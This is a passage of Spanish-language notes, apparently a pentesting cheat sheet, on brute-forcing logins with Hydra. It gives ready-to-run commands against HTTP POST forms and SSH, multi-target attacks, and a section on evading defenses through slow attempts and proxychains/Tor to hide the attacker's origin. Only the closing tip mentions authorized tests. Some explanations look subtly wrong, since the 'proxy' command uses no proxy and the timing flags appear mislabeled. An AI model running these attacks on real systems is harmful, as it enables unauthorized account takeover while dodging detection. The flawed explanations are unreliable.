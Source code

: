 #### Formulario POST con parámetros complejos
```bash
hydra -l admin -P passlist.txt 192.168.1.100 http-post-form "/login.php:usuario=^USER^&password=^PASS^&submit=Login:F=Acceso denegado:H=Cookie: session=abcdef"
```

> [!tip] Sintaxis HTTP-POST-FORM
> `/ruta:datos_post:mensaje_error[:código_H][:código_h]`
> - `/ruta`: URL relativa del formulario
> - `datos_post`: Parámetros POST con ^USER^ y ^PASS^
> - `mensaje_error`: Texto que indica login fallido
> - `código_H`: Headers adicionales (opcional)
> - `código_h`: Headers que deben estar en la respuesta para considerar éxito

### Ataque a múltiples objetivos
```bash
hydra -M targets.txt -l admin -P passlist.txt ssh
```

---

## Evasión de Defensas

### Limitación de velocidad para evitar bloqueos

```bash
hydra -l admin -P passlist.txt -t 1 -W 5 -f -w 30 ssh://192.168.1.100
```

> [!note] Parámetros para evitar detección
> - `-t 1`: Una sola tarea (conexión)
> - `-W 5`: Tiempo máximo de conexión (5 segundos)
> - `-f`: Detener al encontrar un par válido
> - `-w 30`: Tiempo de espera entre intentos (30 segundos)

### Uso de proxies para ocultar origen
```bash
hydra -l admin -P passlist.txt ssh://192.168.1.100 -s 22 -x 5:15:a -t 1 -w 20 -o resultado.txt -e nsr
```

> [!tip] Proxy con Tor
> ```bash
> proxychains hydra -l admin -P passlist.txt ssh://192.168.1.100
> ```

---

## Buenas Prácticas y Tips

> [!tip] Consejos para un uso efectivo
> 
> 1. **Empieza lento**: Comienza con pocos hilos (`-t 4` o menos) y aumenta progresivamente
> 2. **Usa diccionarios específicos**: Personaliza tus diccionarios según el objetivo
> 3. **Verifica manualmente**: Confirma los falsos positivos intentando conectarte
> 4. **Documenta todo**: Guarda siempre los resultados con `-o`
> 5. **Respeta los límites**: En pruebas autorizadas, acuerda límites de recursos y tiempo

